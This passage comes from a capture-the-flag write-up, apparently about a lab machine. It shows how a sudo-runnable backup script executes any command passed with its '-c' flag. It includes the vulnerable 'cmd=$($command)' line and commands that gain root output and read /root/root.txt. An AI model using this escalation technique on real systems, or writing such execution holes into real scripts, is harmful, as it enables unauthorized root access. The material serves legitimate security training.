 ```bash
# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

From the above code , we could understand that it backups all the music files but this particular lines stand out 

## getopts

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```
Here it asks for a input flag `-c` using `getopts` and executes the i/p command given to `-c` at the end of the script 

```bash
cmd=$($command)
echo $cmd
```

> **getopts** is a very convenient bash script utility, which helps you to conveniently handle the passing of flags

Let try giving `id` command as i/p in `-c` flag

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c id

[redacted]

Backup finished
uid=0(root) gid=0(root) groups=0(root)
```
It works !! 

## root.txt 🚩

Lets now retreive **root.txt** flag 

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

[redacted]

Backup finished
flag{Than5s****************enJ053d}
```
